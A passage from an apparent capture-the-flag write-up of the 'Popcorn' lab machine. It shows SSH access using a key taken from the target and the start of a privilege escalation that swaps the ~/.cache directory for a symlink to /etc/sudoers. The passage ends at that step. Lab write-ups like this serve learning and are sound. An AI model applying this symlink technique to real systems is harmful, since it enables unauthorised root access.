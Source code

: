```

www-data@popcorn:/var/www$ ls -la                                                    
total 28                                                                             
drwxr-xr-x  4 www-data www-data 4096 Jun 21 21:39 .               
drwxr-xr-x 15 root     root     4096 Mar 17  2017 ..                                 
-rw-------  1 www-data www-data   44 Jun 21 21:39 .bash_history                      
-rw-r--r--  1 www-data www-data  177 Mar 17  2017 index.html    
drwxr-xr-x  2 www-data www-data 4096 Mar 17  2017 rename  
-rw-r--r--  1 www-data www-data   21 Mar 17  2017 test.php 
drwxr-xr-x 15 www-data www-data 4096 Mar 17  2017 torrent 

```

If I grab a copy of the private key, bring it back to my host, and then SSH to Popcorn as www-data, not only do I get a shell:

```

root@kali# ssh -i /tmp/key www-data@10.10.10.6
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/

  System information as of Sun Jun 21 21:49:51 EEST 2020

  System load: 0.0               Memory usage: 5%   Processes:       111
  Usage of /:  6.2% of 14.80GB   Swap usage:   0%   Users logged in: 0

  Graph this data and manage this system at https://landscape.canonical.com/

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

$

```

But the `.cache` directory shows up with a `motd.legal-displayed`:

```

www-data@popcorn:~$ find .cache/ -type f -ls
  4082    0 -rw-r--r--   1 www-data www-data        0 Jun 21 21:49 .cache/motd.legal-displayed

```

#### Get Write on passwd

I’ll clean up the `~/.cache` directory and replace it with a link to `/etc/sudoers`:
